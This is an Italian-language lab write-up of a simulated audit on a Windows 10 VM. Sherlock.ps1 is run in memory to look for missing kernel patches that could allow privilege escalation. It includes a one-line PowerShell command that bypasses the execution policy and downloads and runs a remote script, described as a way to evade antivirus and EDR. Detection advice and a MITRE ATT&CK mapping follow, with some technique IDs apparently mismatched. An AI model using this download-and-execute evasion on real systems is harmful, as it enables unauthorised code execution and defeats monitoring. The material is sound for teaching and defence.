


# Windows Automated Vulnerability Assessment: Kernel Exploits Auditing (Sherlock)

- Ambiente Operativo: Windows 10 22H2 (Target VM)
- Vettore di Accesso Iniziale (Simulato): Utente base non privilegiato (`nick`).
- Toolchain Utilizzata: PowerShell (Native LotL), Sherlock.ps1 (in-memory)
- Obiettivo: Condurre una scansione automatizzata alla ricerca di vulnerabilità note del Kernel Windows (Missing Patches / MS-Bulletins) per valutare potenziali vettori di Privilege Escalation locale (LPE), operando tramite esecuzione Fileless per bypassare l'ispezione statica del disco.

---

## Executive Summary

Il presente assessment documenta l'esecuzione di un audit automatizzato volto a identificare l'assenza di patch di sicurezza critiche (CVE storiche) nel kernel del sistema operativo Windows. Al fine di mantenere un basso profilo operativo e aggirare i controlli Antivirus (AV) basati su firme e il File Integrity Monitoring (FIM), l'auditing è stato condotto sfruttando funzionalità native del sistema operativo (Living off the Land) per eseguire il payload di scansione direttamente in memoria RAM (Fileless Execution).

L'analisi ha confermato la corretta applicazione delle patch di sicurezza cumulative, evidenziando che il target risulta non vulnerabile ai vettori di LPE storici basati su kernel.

---

## Fase 1: Esecuzione In-Memory (Fileless & OPSEC)

L'impiego di script pubblici largamente noti (come `Sherlock.ps1`) comporta un elevato rischio di rilevamento se scritti sul disco, poiché i loro hash sono universalmente presenti nei database delle soluzioni Endpoint Detection and Response (EDR) e di Microsoft Defender.

Per eludere il rilevamento statico, si è optato per un'esecuzione in memoria. Inizialmente, si è allentata la policy di esecuzione di PowerShell a livello di processo, seguita dall'utilizzo del cmdlet `Invoke-Expression (IEX)` in combinazione con l'oggetto `Net.WebClient`. Questa tecnica permette di prelevare il sorgente remoto e passarlo direttamente all'interprete PowerShell in esecuzione, senza che il file transiti mai sul disco persistente.

Comandi di Esecuzione:

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
```

---

## Fase 2: Vulnerability Auditing & Analisi dei Risultati

Una volta che le funzioni dello script sono state allocate in memoria, è stato richiamato il modulo principale (`Find-AllVulns`) per avviare l'enumerazione delle patch. Lo script analizza le build del sistema e interroga WMI per identificare l'assenza dei pacchetti di sicurezza rilasciati da Microsoft (MS-Bulletins).

L'output della scansione ha restituito informazioni preziose sulla postura di sicurezza del sistema:

- Assenza di librerie vulnerabili (Hardening Strutturale): L'errore restituito su `C:\Windows\system32\atmfd.dll` conferma che il componente Microsoft Windows Adobe Type Manager Library, storicamente abusato per Remote Code Execution e LPE (es. MS15-078), è stato rimosso in conformità con gli aggiornamenti architetturali delle versioni recenti di Windows 10.
- Patch Validation: L'auditing ha ciclicamente verificato CVE critiche che permettono la transizione da User Mode a Ring 0 (Kernel). Tra queste, sono state verificate e scartate:
    - MS10-015 / CVE-2010-0232 (User Mode to Ring KiTrap0D)
    - MS14-058 / CVE-2014-4113 (TrackPopupMenu Null Pointer Dereference)
    - MS15-051 / CVE-2015-1701 (ClientCopyImage Win32k)
    - MS16-032 / CVE-2016-0099 (Secondary Logon Handle)

Per ogni vettore verificato, lo script ha confermato lo stato `VulnStatus : Not Vulnerable`.





---

## Blue Team: Rilevamento e Contromisure (Detection Engineering)

Sebbene l'attacco mirato allo sfruttamento di CVE storiche sia fallito grazie alla corretta postura di Patch Management, la tecnica di esecuzione (Fileless download-and-execute via PowerShell) rappresenta un TTP (Tactics, Techniques, and Procedures) avanzato che deve essere monitorato.

Detection Strategies:

- AMSI (Anti-Malware Scan Interface): L'esecuzione in memoria è il caso d'uso principale per cui è stato progettato AMSI. Assicurarsi che le soluzioni di sicurezza locali supportino e integrino AMSI per ispezionare il contenuto di script PowerShell, VBScript e macro prima dell'esecuzione da parte dell'interprete, indipendentemente dalla loro origine (disco o rete).
- PowerShell Logging: Abilitare tramite GPO le funzionalità di Script Block Logging (Event ID 4104). Questo permette al SIEM di catturare l'intero blocco di codice eseguito (incluso il payload di Sherlock de-offuscato), anche se l'attaccante tenta di evadere le policy standard.
- Monitoraggio Processi / Command Line Auditing: Creare regole di detection per l'uso anomalo dei cmdlet di download associati a `IEX`, come `Net.WebClient.DownloadString` o `Invoke-WebRequest`, specialmente se eseguiti da processi in contesti non amministrativi.

---

## Mappatura MITRE ATT&CK

| Tattica | Tecnica | ID MITRE | Descrizione dell'Azione |
|---------|---------|----------|-------------------------|
| Execution | Command and Scripting Interpreter: PowerShell | `T1059.001` | Utilizzo di PowerShell nativo per prelevare ed eseguire il payload dalla rete. |
| Defense Evasion | Fileless Storage: In-Memory | `T1027` | Esecuzione dello script d'auditing direttamente nella RAM (tramite IEX) per bypassare controlli FIM/AV. |
| Defense Evasion | Bypass Execution Flow | `T1036` | Utilizzo di Set-ExecutionPolicy Bypass per eludere le restrizioni locali sull'esecuzione di script non firmati. |
| Discovery | System Information Discovery | `T1082` | Automazione del controllo incrociato tra versione OS e patch WMI installate per identificare falle a livello Kernel. |
| Privilege Escalation | Exploitation for Privilege Escalation | `T1068` | Obiettivo primario (fallito a causa dell'hardening) di identificare vettori di escalation basati su vulnerabilità non patchate. |